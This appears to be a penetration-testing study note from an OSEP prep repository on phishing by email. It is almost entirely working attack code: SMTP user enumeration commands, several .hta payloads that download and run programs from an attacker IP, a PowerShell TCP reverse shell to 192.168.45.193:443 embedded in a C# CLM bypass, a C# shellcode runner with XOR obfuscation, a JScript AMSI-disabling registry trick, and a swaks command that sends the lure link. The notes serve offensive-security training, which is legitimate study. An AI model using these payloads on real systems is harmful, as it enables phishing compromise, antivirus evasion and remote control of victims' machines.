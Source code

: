 ## Phishing through Email

First of all, you need to find a valid email account to send the phish to. This could either be through enumeration of the web portals or if SMTP is open, using the following enum command
```bash
# Can check via manual telnet to see which method is allowed
$ smtp-user-enum -M VRFY -U users.txt -t 10.0.0.1
$ smtp-user-enum -M EXPN -u admin1 -t 10.0.0.1
$ smtp-user-enum -M RCPT -U users.txt -T mail-server-ips.txt
$ smtp-user-enum -M EXPN -D example.com -U users.txt -t 10.0.0.1
```

### Payload - Via .hta

- Only works if victim is using IE and hence mshta.exe will execute the .hta payload
- Lets prepare a .hta payload which we can serve as a link in our email's body to entice the victim to click and execute
- Payload from simple to complex
- We call the below evil.hta

**Simple Powershell Download Cradle and RevShell via TCPSocket**
- Can evade AV because of the use of "non-standard" var names
- Note if you dont see the run.txt being downloaded, it may be because the method of New-Object System.Net.WebClient is restricted by CLM. You can use IWR instead
```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe (New-Object System.Net.WebClient).DownloadString('http://<ip>/run.txt')| IEX");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
![run.txt here](https://github.com/OoStellarnightoO/OSEP_Notes/blob/main/99%20-%20Misc%20Stuff/PS_Nishang_OneLiner_RevShell.ps1)

For run.txt, you can also Base64 Encode it but if you are using cyberchef, remember to Encode Text (UTF-16 LE) recipe before Base64 encode recipe!
![alt text](image.png)

**Simple Powershell Download EXE and Execute**
- No AMSI and Applocker bypass so will likely download the EXE but fail to execute

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe iwr -uri http://<ip>/msf.exe -outfile C:\\users\\public\\msf.exe; C:\\users\\public\\msf.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

**PSBypassCLM Rev Shell**
- Requires InstalUtil. Bypasses CLM for that session

```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell.exe iwr -uri http://<ip>/psbypassclm.exe -outfile C:\\users\\public\\bypass.exe; C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /LogToConsole=true /revshell=true /rhost=<kali ip> /rport=443 /U c:\\Users\\Public\\bypass.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```

**.hta > CLMBypass > NishangRevShell**
- Basically craft a hta that directs the victim to download the CLMBypass exe from your apache2 server
- Within this CLMBypass is an AMSI bypass that is downloaded from your apache2 server and then executing a somewhat obfuscated NishangRevShell (change the var names)
- The .hta code below
```html
<html>
<head>
<script language="JScript">
var shell = new ActiveXObject("WScript.Shell");
var r = shell.Run("powershell iwr -uri http://192.168.45.193/irs.exe -Outfile C:\\Windows\\tasks\\irs.exe;C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe /logfile= /LogToConsole=true /U C:\\Windows\\tasks\\irs.exe");
</script>
</head>
<body>
<script language="JScript">
self.close();
</script>
</body>
</html>
```
The CLMBypass excerpt below
```csharp
String cmd1 = "(New-Object System.Net.WebClient).DownloadString('http://192.168.45.193/amsi.txt') | IEX;";
            String cmd2 = "$cli = New-Object System.Net.Sockets.TCPClient('192.168.45.193',443);$str = $cli.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $str.Read($bytes, 0, $bytes.Length)) -ne 0){;$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sb = (iex $d 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbyte = ([text.encoding]::ASCII).GetBytes($sb2);$str.Write($sbyte,0,$sbyte.Length);$str.Flush()};$cli.Close()";
            Runspace rs = RunspaceFactory.CreateRunspace();
            rs.Open();
```


**C# Shellcode Runner + DOTNET2JS**
- hmm stealthy? No Powershell at least
- Spin up the dotnet2js sln file; Remember to comment out the dotnet v2 line in Program.cs of the main project
- In the ExampleAssembly's TestClass.cs, put the following code. Compiled in x64

```csharp
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Windows.Forms;

[ComVisible(true)]
public class TestClass
{
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize,
  uint flAllocationType, uint flProtect);

    [DllImport("kernel32.dll")]
    static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
      IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

    [DllImport("kernel32.dll")]
    static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

    public TestClass()
    {
        byte[] buf = <shellcode here x64>;

        int size = buf.Length;

        IntPtr addr = VirtualAlloc(IntPtr.Zero, 0x1000, 0x3000, 0x40);

        Marshal.Copy(buf, 0, addr, size);

        IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);

        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }
}

```
**XOR-ed C# Shellcode Runner + DOTNET2JS + AMSI BYPASS IN JSCRIPT**

- use our XOR_Helper to generate XOR-ed C# Shellcode
- Put the XOR-ed shellcode into the shellcode script in ExampleAssembly.dll
- Add a decryption function in the ExampleAssembly.dll after the buf variable like this
```csharp
        byte[] buf = <shellcode here x64>;

//assuming your XOR key is 0xfa
        for (int i = 0; i < buf.Length; i++)
        {
            buf[i] = (byte)((uint)buf[i] ^ 0xfa);
        }

        int size = buf.Length;
```
- when your evil.js is created, open it and slam the following code at the top:
- Note you may need to obfuscare the AmsiEnable code block through some simple string manipulation like below
```js
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\A" +"msi"+"Enable";

try{
	var AEnable = sh.RegRead(key);
	if(AEnable!=0){
	throw new Error(1, '');
	}
}catch(e){
	sh.RegWrite(key, 0, "REG_DWORD"); 
	sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName,0,1); 
	sh.RegWrite(key, 1, "REG_DWORD"); 
	WScript.Quit(1);
}

<rest of your dotnet2jscript stuff>
```
- This should bypass a noobish Defender and AMSI
### Sending the email!

Make sure your apache server is running to serve the .hta

```bash
sudo swaks -t will@offsec.com --from hacker@hacker.com --server <Target IP with SMTP> --body 'Click here http://192.168.45.195/evil.hta' --header Anything
```